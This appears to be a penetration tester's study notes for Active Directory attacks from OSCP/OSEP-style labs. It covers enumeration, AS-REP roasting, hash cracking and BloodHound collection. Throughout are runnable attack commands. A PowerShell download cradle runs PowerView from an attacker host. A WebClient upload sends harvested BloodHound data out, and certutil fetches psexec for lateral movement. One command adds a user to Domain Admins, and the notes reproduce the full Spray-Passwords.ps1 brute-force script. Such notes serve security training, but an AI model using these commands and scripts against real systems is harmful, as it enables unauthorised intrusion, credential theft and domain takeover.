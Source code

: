 # Enumeration

<details>

<summary>Enumerate Domain Hosts</summary>

```powershell
# To generate /etc/hosts entries
nxc smb 172.16.155.0/24 --generate-hosts-file hosts.txt

# Double-check to ensure all hosts are included (eg: SMB not enabled)
nxc winrm 172.16.155.0/24
```

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```powershell
# Using PowerView to double-check
iex (new-object net.webclient).downloadstring('http://192.168.45.218/PowerView.ps1')
Get-NetComputer | select operatingsystem, dnshostname
nslookup <hostname>
```

</details>

<details>

<summary>PowerView</summary>

Download PowerView from [here](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1)

```powershell
Import-Module .\PowerView.ps1
```

### Enumerate Hostnames & IPs of Computers

```powershell
Get-DomainComputer -Domain ops.comply.com  | select name, dnshostname, operatingsystem
```

```bash
nslookup jump09.ops.comply.com

#Name:    jum09.ops.comply.com
#Address:  172.16.218.167
```

### Enumerate Users

```powershell
Get-NetUser | select samaccountname, lastlogon
```

### Enumerate Groups

* Able to show nested groups (unlike `net groups`)

```powershell
Get-NetGroup | select samaccountname
```

### Enumerate OS of Domain hosts

```powershell
Get-NetComputer | select operatingsystem, dnshostname
```

### Resolves Domain Name to IP address

```powershell
Resolve-IPAddress CLIENT76.corp.com
```

### Tests if current account has localadmin access to domain hosts

```powershell
Find-LocalAdminAccess
```

### View if someone logs into the box

* Might not work if running newer versions of Windows

```powershell
Get-NetSession -ComputerName files04 -verbose
```

#### OR, Use PsLoggedon

```powershell
.\PsLoggedon.exe \\client74
```

</details>

<details>

<summary>AS-REP Roasting</summary>

### Generate list of potential usernames

```bash
wget https://raw.githubusercontent.com/jseidl/usernamer/master/usernamer.py
python2.7 usernamer.py -f full_names.txt > potential_usernames.txt

---OR---
username-anarchy --input-file full_names > usernames.txt
```

### Kerbrute

* `--downgrade` so it is in a format that hashcat can crack
* Can use `/usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt` if don't know wordlist

```bash
git clone https://github.com/ropnop/kerbrute.git
go build
kerbrute --dc 10.10.10.175 -d EGOTISTICAL-BANK.LOCAL --hash-file hashes.txt --downgrade userenum potential_usernames.txt
```

### Impacket-GetNPUsers

```bash
impacket-GetNPUsers -usersfile usernames -dc-ip 10.10.10.161 htb.local/
```

```bash
for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done
```

### Cracking Hashes

```bash
hashcat -m 18200 -a 0 hash.txt rockyou.txt
```

</details>

<details>

<summary>BloodHound</summary>

```bash
# Generate JSON files
bloodhound-python -c ALL -u sbauer -p 'D3veL0pM3nT!' -d megacorp.local -ns 10.10.10.179 --zip

# ORRR Bloodhound using Kerberos
git clone https://github.com/jazzpizazz/BloodHound.py-Kerberos
./bloodhound.py -u m.lovegod -k -d absolute.htb -dc dc.absolute.htb -ns 10.10.11.181 --dns-tcp --zip -c All


neo4j console
```

Search bloodhound in Apps and open --> load in the jsons (Upload Data).

Upload completed --> Search "SVC\_LOANMGR@EGOTISTICAL-BANK.LOCAL" --> Node Info --> First Degree Object Control (under Outbound Object Control) --> To see items that this user has rights over

Go hamburger menu and click analysis --> Start from the bottom of the entire list.

### OR Use SharpHound.exe to collect data for BloodHound

The following will generate `20230425015352_BloodHound.zip`

```bash
SharpHound.exe -c all
# If LDAP Auth Error:
 .\sharphound.exe --ldapusername marcus --ldappassword P@ssw0rd123!

# OR
Import-Module ..\Sharphound.ps1
Invoke-BloodHound -CollectionMethod All -OutputPrefix "corp_audit"
```

Transfer files to Kali [https://raw.githubusercontent.com/Tallguy297/SimpleHTTPServerWithUpload/master/SimpleHTTPServerWithUpload.py](https://raw.githubusercontent.com/Tallguy297/SimpleHTTPServerWithUpload/master/SimpleHTTPServerWithUpload.py)

```powershell
PS C:\temp> (New-Object System.Net.WebClient).UploadFile('http://192.168.45.5/', 'C:\temp\20230425015352_BloodHound.zip')
```

```bash
┌──(root㉿kali)-[/home/kali/Documents/pg_practice/192.168.231.175]
└─# python3 SimpleHTTPServerWithUpload.py 80
Serving HTTP on localhost port 80 (http://localhost:80/) ...
(True, "<br><br>'/home/kali/Documents/pg_practice/192.168.231.175/20230425015352_BloodHound.zip'", 'by: ', ('192.168.231.175', 49993))
192.168.231.175 - - [25/Apr/2023 05:13:14] "POST / HTTP/1.1" 200 -
```

Start `neo4j start` and start `bloodhound`

Upload the zip file to ![](<../.gitbook/assets/image (13) (1).png>)

</details>

<details>

<summary>Object Permissions</summary>

* Access control lists has access control elements&#x20;



* GenericAll: Full permissions on object (change user's password, add to group)&#x20;
* GenericWrite: Edit certain attributes on the object&#x20;
* WriteOwner: Change ownership of the object&#x20;
* WriteDACL: Edit ACE's applied to object&#x20;
* AllExtendedRights: Change password, reset password, etc.&#x20;
* ForceChangePassword: Password change for object&#x20;
* Self (Self-Membership): Add ourselves to for example a group

### Powerview

#### Find GenericAll permissions on Management Department group

<pre class="language-powershell"><code class="lang-powershell">Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

# Converts the SID to name
"S-1-5-21-1987370270-658905905-1781884369-512", "S-1-5-21-1987370270-658905905-1781884369-1104", "S-1-5-32-548", "S-1-5-18", "S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
# CORP\Domain Admins
# CORP\stephanie
<strong># BUILTIN\Account Operators
</strong># Local System
# CORP\Enterprise Admins
</code></pre>

#### Find GenericAll permissions on Jen user

```powershell
Get-ObjectAcl -Identity "jen" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

# Converts SID to name
"S-1-5-21-1987370270-658905905-1781884369-512", "S-1-5-32-548", "S-1-5-18", "S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
```

</details>

<details>

<summary>User's Domain Privileges</summary>

```bash
net user <username> /domain
```

</details>

<details>

<summary>Groups Enumeration</summary>

```
net group /domain
```

* However, `net.exe` does not show nested groups.

Listing all the groups in a domain

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"

$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)

$objDomain = New-Object System.DirectoryServices.DirectoryEntry

$Searcher.SearchRoot = $objDomain

$Searcher.filter="(objectClass=Group)"
#$Searcher.filter="(name=Secret_Group)"

$Result = $Searcher.FindAll()

Foreach($obj in $Result)
{
    $obj.Properties.name
}
<#
Foreach($obj in $Result)
{
    $obj.Properties.member
}
#>
```

</details>

<details>

<summary>Currently Logged On Users</summary>

* Find logged on users in the high-value groups since their creds will be cached in memory

```powershell
Import-Module .\PowerView.ps1
```

* The following command invokes `NetWkstaUserEnum`, which requires administrative permissions and returns the list of all users logged on to a target workstation.

```powershell
Get-NetLoggedon -ComputerName client251
```

* The following command invoke `NetSessionEnum`, which can be used from a regular domain user and returns a list of active user sessions on servers.

```powershell
Get-NetSession -ComputerName dc01
```

</details>

<details>

<summary>Service Principal Names (SPN) Enumeration</summary>

* SPN is used to associate a service on a specific server to a service account in Active Directory.

- Service accounts may also be members of high value groups

* Some apps may use a set of predefined service accounts like LocalSystem, LocalService, and NetworkService. For more complex applications, a domain user account may be used to provide the needed context while still having access to resources inside the domain.

The following script searches for the string `http`, which indicates the presence of a registered web server.

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"
$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)

$objDomain = New-Object System.DirectoryServices.DirectoryEntry

$Searcher.SearchRoot = $objDomain

$Searcher.filter="serviceprincipalname=*http*"

$Result = $Searcher.FindAll()

Foreach($obj in $Result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }
}
```

```sh
nslookup CorpWebServer.corp.com
```

</details>

<details>

<summary>Account Policy</summary>

```
net users
```

* The Lockout observation window means that after X minutes of the last login attempt, user will be given 3 more login attempts.

```
.\Spray-Passwords.ps1 -Pass Qwerty09! -Admin
```

* The following is `Spray-Passwords.ps1`

```powershell
<#
  .SYNOPSIS
    PoC PowerShell script to demo how to perform password spraying attacks against 
     user accounts in Active Directory (AD), aka low and slow online brute force method.
    Only use for good and after written approval from AD owner.
    Requires access to a Windows host on the internal network, which may perform
     queries against the Primary Domain Controller (PDC).
    Does not require admin access, neither in AD or on Windows host.
    Remote Server Administration Tools (RSAT) are not required.
    
    Should NOT be considered OPSEC safe since:
    - a lot of traffic is generated between the host and the Domain Controller(s).
    - failed logon events will be massive on Domain Controller(s).
    - badpwdcount will iterate on user account objects in scope.
    
    No accounts should be locked out by this script alone, but there are no guarantees.
    NB! This script does not take Fine-Grained Password Policies (FGPP) into consideration.
  .DESCRIPTION
    Perform password spraying attack against user accounts in Active Directory.
  .PARAMETER Pass
    Specify a single or multiple passwords to test for each targeted user account. Eg. -Pass 'Password1,Password2'. Do not use together with File or Url."
	
  .PARAMETER File
    Supply a path to a password input file to test multiple passwords for each targeted user account. Do not use together with Pass or Url.
	
  .PARAMETER Url
    Download file from given URL and use as password input file to test multiple passwords for each targeted user account. Do not use together with File or Pass.
	
  .PARAMETER Admins
    Warning: will also target privileged user accounts (admincount=1.)". Default = $false.
  .EXAMPLE
    PS C:\> .\Spray-Passwords.ps1 -Pass 'Summer2016'
    1. Test the password 'Summer2016' against all active user accounts, except privileged user accounts (admincount=1).
  .EXAMPLE
    PS C:\> .\Spray-Passwords.ps1 -Pass 'Summer2016,Password123' -Admins
    1. Test the password 'Summer2016' against all active user accounts, including privileged user accounts (admincount=1).
  .EXAMPLE
    PS C:\> .\Spray-Passwords.ps1 -File .\passwords.txt -Verbose 
    
    1. Test each password in the file 'passwords.txt' against all active user accounts, except privileged user accounts (admincount=1).
    2. Output script progress/status information to console.
  .EXAMPLE
    PS C:\> .\Spray-Passwords.ps1 -Url 'https://raw.githubusercontent.com/ZilentJack/Get-bADpasswords/master/BadPasswords.txt' -Verbose 
    
    1. Download the password file with weak passwords.
    2. Test each password against all active user accounts, except privileged user accounts (admincount=1).
    3. Output script progress/status information to console.
  .LINK
    Get latest version here: https://github.com/ZilentJack/Spray-Passwords
  .NOTES
    Authored by    : Jakob H. Heidelberg / @JakobHeidelberg / www.improsec.com
    Together with  : CyberKeel / www.cyberkeel.com
    Date created   : 09/05-2016
    Last modified  : 26/06-2016
    Version history:
    - 1.00: Initial public release, 26/06-2016
    Tested on:
     - WS 2016 TP5
     - WS 2012 R2
     - Windows 10
    Known Issues & possible solutions/workarounds:
     KI-0001: -
       Solution: -
    Change Requests for vNext (not prioritized):
     CR-0001: Support for Fine-Grained Password Policies (FGPP).
     CR-0002: Find better way of getting Default Domain Password Policy than "NET ACCOUNTS". Get-ADDefaultDomainPasswordPolicy is not en option as it relies on RSAT.
     CR-0003: Threated approach to test more user/password combinations simultaneously.
     CR-0004: Exception or include list based on username, group membership, SID's or the like.
     CR-0005: Exclude user account that executes the script (password probably already known).
    Verbose output:
     Use -Verbose to output script progress/status information to console.
#>

[CmdletBinding(DefaultParameterSetName='ByPass')]
Param 
(
    [Parameter(Mandatory = $true, ParameterSetName = 'ByURL',HelpMessage="Download file from given URL and use as password input file to test multiple passwords for each targeted user account.")]
    [String]
    $Url = '',

    [Parameter(Mandatory = $true, ParameterSetName = 'ByFile',HelpMessage="Supply a path to a password input file to test multiple passwords for each targeted user account.")]
    [String]
    $File = '',

    [Parameter(Mandatory = $true, ParameterSetName = 'ByPass',HelpMessage="Specify a single or multiple passwords to test for each targeted user account. Eg. -Pass 'Password1,Password2'")]
    [AllowEmptyString()]
    [String]
    $Pass = '',

    [Parameter(Mandatory = $false,HelpMessage="Warning: will also target privileged user accounts (admincount=1.)")]
    [Switch]
    $Admins = $false

)

# Method to determine if input is numeric or not
Function isNumeric ($x) {
    $x2 = 0
    $isNum = [System.Int32]::TryParse($x, [ref]$x2)
    Return $isNum
}

# Method to get the lockout threshold - does not take FGPP into acocunt
Function Get-threshold
{
    $data = net accounts
    $threshold = $data[5].Split(":")[1].Trim()

    If (isNumeric($threshold) )
        {
            Write-Verbose "threshold is a number = $threshold"
            $threshold = [Int]$threshold
        }
    Else
        {
            Write-Verbose "Threshold is probably 'Never', setting max to 1000..."
            $threshold = [Int]1000
        }
    
    Return $threshold
}

# Method to get the lockout observation window - does not tage FGPP into account
Function Get-Duration
{
    $data = net accounts
    $duration = [Int]$data[7].Split(":")[1].Trim()
    Write-Verbose "Lockout duration is = $duration"
    Return $duration
}

# Method to retrieve the user objects from the PDC
Function Get-UserObjects
{
    # Get domain info for current domain
    Try {$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()}
    Catch {Write-Verbose "No domain found, will quit..." ; Exit}
   
    # Get the DC with the PDC emulator role
    $PDC = ($domainObj.PdcRoleOwner).Name

    # Build the search string from which the users should be found
    $SearchString = "LDAP://"
    $SearchString += $PDC + "/"
    $DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
    $SearchString += $DistinguishedName

    # Create a DirectorySearcher to poll the DC
    $Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
    $objDomain = New-Object System.DirectoryServices.DirectoryEntry
    $Searcher.SearchRoot = $objDomain

    # Select properties to load, to speed things up a bit
    $Searcher.PropertiesToLoad.Add("samaccountname") > $Null
    $Searcher.PropertiesToLoad.Add("badpwdcount") > $Null
    $Searcher.PropertiesToLoad.Add("badpasswordtime") > $Null

    # Search only for enabled users that are not locked out - avoid admins unless $admins = $true
    If ($Admins) {$Searcher.filter="(&(samAccountType=805306368)(!(lockoutTime>=1))(!(userAccountControl:1.2.840.113556.1.4.803:=2)))"}
    Else {$Searcher.filter="(&(samAccountType=805306368)(!(admincount=1))(!(lockoutTime>=1))(!(userAccountControl:1.2.840.113556.1.4.803:=2)))"}
    $Searcher.PageSize = 1000

    # Find & return targeted user accounts
    $userObjs = $Searcher.FindAll()
    Return $userObjs
}

# Method to perform auth test with specific username and password
Function Perform-Authenticate
{
    Param
    ([String]$username,[String]$password)

    # Get current domain with ADSI
    $CurrentDomain = "LDAP://"+([ADSI]"").DistinguishedName

    # Try to authenticate
    Write-Verbose "Trying to authenticate as user '$username' with password '$password'"
    $dom = New-Object System.DirectoryServices.DirectoryEntry($CurrentDomain, $username, $password)
    $res = $dom.Name
    
    # Return true/false
    If ($res -eq $null) {Return $false}
    Else {Return $true}
}

# Validate and parse user supplied url to CSV file of passwords
Function Parse-Url
{
    Param ([String]$url)

    # Download password file from URL
    $data = (New-Object System.Net.WebClient).DownloadString($url)
    $data = $data.Split([environment]::NewLine)

    # Parse passwords file and return results
    If ($data -eq $null -or $data -eq "") {Return $null}
    $passwords = $data.Split(",").Trim()
    Return $passwords
}

# Validate and parse user supplied CSV file of passwords
Function Parse-File
{
   Param ([String]$file)

   If (Test-Path $file)
   {
        $data = Get-Content $file
        
        If ($data -eq $null -or $data -eq "") {Return $null}
        $passwords = $data.Split(",").Trim()
        Return $passwords
   }
   Else {Return $null}
}

# Main function to perform the actual brute force attack
Function BruteForce
{
   Param ([Int]$duration,[Int]$threshold,[String[]]$passwords)

   #Setup variables
   $userObj = Get-UserObjects
   Write-Verbose "Found $(($userObj).count) active & unlocked users..."
   
   If ($passwords.Length -gt $threshold)
   {
        $time = ($passwords.Length - $threshold) * $duration
        Write-Host "Total run time is expected to be around $([Math]::Floor($time / 60)) hours and $([Math]::Floor($time % 60)) minutes."
   }

   [Boolean[]]$done = @()
   [Boolean[]]$usersCracked = @()
   [Int[]]$numTry = @()
   $results = @()

   #Initialize arrays
   For ($i = 0; $i -lt $userObj.Length; $i += 1)
   {
        $done += $false
        $usersCracked += $false
        $numTry += 0
   }

   # Main while loop which does the actual brute force.
   Write-Host "Performing brute force - press [q] to stop the process and print results..." -BackgroundColor Yellow -ForegroundColor Black
   :Main While ($true)
   {
        # Get user accounts
        $userObj = Get-UserObjects
        
        # Iterate over every user in AD
        For ($i = 0; $i -lt $userObj.Length; $i += 1)
        {

            # Allow for manual stop of the while loop, while retaining the gathered results
            If ($Host.UI.RawUI.KeyAvailable -and ("q" -eq $Host.UI.RawUI.ReadKey("IncludeKeyUp,NoEcho").Character))
            {
                Write-Host "Stopping bruteforce now...." -Background DarkRed
                Break Main
            }

            If ($usersCracked[$i] -eq $false)
            {
                If ($done[$i] -eq $false)
                {
                    # Put object values into variables
                    $samaccountnname = $userObj[$i].Properties.samaccountname
                    $badpwdcount = $userObj[$i].Properties.badpwdcount[0]
                    $badpwdtime = $userObj[$i].Properties.badpasswordtime[0]
                    
                    # Not yet reached lockout tries
                    If ($badpwdcount -lt ($threshold - 1))
                    {
                        # Try the auth with current password
                        $auth = Perform-Authenticate $samaccountnname $passwords[$numTry[$i]]

                        If ($auth -eq $true)
                        {
                            Write-Host "Guessed password for user: '$samaccountnname' = '$($passwords[$numTry[$i]])'" -BackgroundColor DarkGreen
                            $results += $samaccountnname
                            $results += $passwords[$numTry[$i]]
                            $usersCracked[$i] = $true
                            $done[$i] = $true
                        }

                        # Auth try did not work, go to next password in list
                        Else
                        {
                            $numTry[$i] += 1
                            If ($numTry[$i] -eq $passwords.Length) {$done[$i] = $true}
                        }
                    }

                    # One more tries would result in lockout, unless timer has expired, let's see...
                    Else 
                    {
                        $now = Get-Date
                        
                        If ($badpwdtime)
                        {
                            $then = [DateTime]::FromFileTime($badpwdtime)
                            $timediff = ($now - $then).TotalMinutes
                        
                            If ($timediff -gt $duration)
                            {
                                # Since observation window time has passed, another auth try may be performed
                                $auth = Perform-Authenticate $samaccountnname $passwords[$numTry[$i]]
                            
                                If ($auth -eq $true)
                                {
                                    Write-Host "Guessed password for user: '$samaccountnname' = '$($passwords[$numTry[$i]])'" -BackgroundColor DarkGreen
                                    $results += $samaccountnname
                                    $results += $passwords[$numTry[$i]]
                                    $usersCracked[$i] = $true
                                    $done[$i] = $true
                                }
                                Else 
                                {
                                    $numTry[$i] += 1
                                    If($numTry[$i] -eq $passwords.Length) {$done[$i] = $true}
                                }

                            } # Time-diff if

                        }
                        Else
                        {
                            # Verbose-log if $badpwdtime in null. Possible "Cannot index into a null array" error.
                            Write-Verbose "- no badpwdtime exception '$samaccountnname':'$badpwdcount':'$badpwdtime'"
	
	
	
				   # Try the auth with current password
        	                $auth = Perform-Authenticate $samaccountnname $passwords[$numTry[$i]]
			
                                If ($auth -eq $true)
                                {
                                    Write-Host "Guessed password for user: '$samaccountnname' = '$($passwords[$numTry[$i]])'" -BackgroundColor DarkGreen
                                    $results += $samaccountnname
                                    $results += $passwords[$numTry[$i]]
                                    $usersCracked[$i] = $true
                                    $done[$i] = $true
                                }
                                Else 
                                {
                                    $numTry[$i] += 1
                                    If($numTry[$i] -eq $passwords.Length) {$done[$i] = $true}
                                }
			 
			 
			    
                        } # Badpwdtime-check if

                    } # Badwpdcount-check if

                } # Done-check if

            } # User-cracked if

        } # User loop

        # Check if the bruteforce is done so the while loop can be terminated
        $amount = 0
        For ($j = 0; $j -lt $done.Length; $j += 1)
        {
            If ($done[$j] -eq $true) {$amount += 1}
        }

        If ($amount -eq $done.Length) {Break}

   # Take a nap for a second
   Start-Sleep -m 1000

   } # Main While loop

   If ($results.Length -gt 0)
   {
       Write-Host "Users guessed are:"
       For($i = 0; $i -lt $results.Length; $i += 2) {Write-Host " '$($results[$i])' with password: '$($results[$i + 1])'"}
   }
   Else {Write-Host "No passwords were guessed."}
}

$passwords = $null

If ($Url -ne '')
{
    $passwords = Parse-Url $Url
}
ElseIf($File -ne '')
{
    $passwords = Parse-File $File
}
Else
{
    $passwords = $Pass.Split(",").Trim()   
}

If($passwords -eq $null)
{
    Write-Host "Error in password input, please try again."
    Exit
}

# Get password policy info
$duration = Get-Duration
$threshold = Get-threshold

If ($Admins) {Write-Host "WARNING: also targeting admin accounts." -BackgroundColor DarkRed}

# Call the main function and start the brute force
BruteForce $duration $threshold $passwords
```

</details>

<details>

<summary>Impacket Look Up SID</summary>

```bash
/usr/share/doc/python3-impacket/examples/lookupsid.py username:password@172.21.0.0
```

</details>

<details>

<summary>Anonymous LDAP User Enumeration</summary>

```bash
python3 windapsearch.py -d forest.htb.local --custom "objectClass=*"
```

</details>

## OSEP Notes below

<details>

<summary>Enumerating Access Rights</summary>

* See what AD object has access rights to the "offsec" user
  *   ```powershell
      . .\powerview.ps1
      Get-ObjectAcl -Identity offsec  
      ConvertFrom-SID S-1-5-21-3776646582-2086779273-4091361643-553
      ```


* Command that resolve the SID through ConvertFrom-SID
  * ```powershell
    Get-ObjectAcl -Identity offsec -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
    ```

</details>

<details>

<summary>Enumerating GenericAll Rights </summary>

* Enumerate all domain users that our current account has GenericAll rights to
  *   ```powershell
      Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
      ```



      <figure><img src="../.gitbook/assets/image (308).png" alt=""><figcaption><p><br></p></figcaption></figure>


* Enumerate all domain groups that current account has GenericAll rights to
  *   ```powershell
      Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
      ```

      <figure><img src="../.gitbook/assets/image (310).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Enumerating WriteDACL</summary>

* Grants permission to modify the DACL itself
  *   ```powershell
      Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
      ```

      <figure><img src="../.gitbook/assets/image (311).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Enumerating GenericWrite</summary>

*   ```powershell
    Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
    ```

    <figure><img src="../.gitbook/assets/image (312).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Enumeration in AD Forest</summary>

```powershell
nltest /trusted_domains
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```

### Powerview

```powershell
# Uses LDAP to query trust details
Get-DomainTrust
# Uses Netlogon API to query trust details (More info)
Get-DomainTrust -API
# Enum users in corp1.com domain
Get-DomainUser -Domain corp1.com 
    # Find accounts that belong to the enterprise administrator grp
    Get-DomainUser -Domain corp1.com | where memberof -match "Enterprise Admins"
# Enum groups in corp1.com domain
Get-DomainGroup -Domain corp1.com | Select samaccountname
```

</details>

<details>

<summary>Enumerating Forest Trusts</summary>

* Get all trust relationships for current forest
  *   ```powershell
      ([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).GetAllTrustRelationships()
      ```


* Enumerating Forest Trusts Using PowerView
  *   ```powershell
      Get-ForestTrust
      Get-DomainTrust -Domain corp1.com
      ```


* Automating Forest Trust Enumeration with PowerView
  *   ```powershell
      Get-DomainTrustMapping
      ```


* Identifying Foreign Group Membership
  * User from another domain or forest that is a member of a group inside the target forest
  *   ```powershell
      Get-DomainForeignGroupMember -Domain corp2.com
      Convert-SidToName S-1-5-21-1416213050-106196312-571527550-1107
      # complyedge\jim 
      ```


* Change Password of said account & add it to Domain Admin group so we can access it from our DC host
  *   ```powershell
      net user jim P@ssw0rd /domain
      net group "Domain Admins" jim /add /domain
      runas /user:complyedge\jim powershell
      ```


* In new Powershell Window as jim:
  * ```powershell
    certutil -urlcache -f http://192.168.45.160/psexec_64.exe psexec_64.exe
    .\psexec_64.exe \\file06.ops.comply.com cmd
    ```

</details>

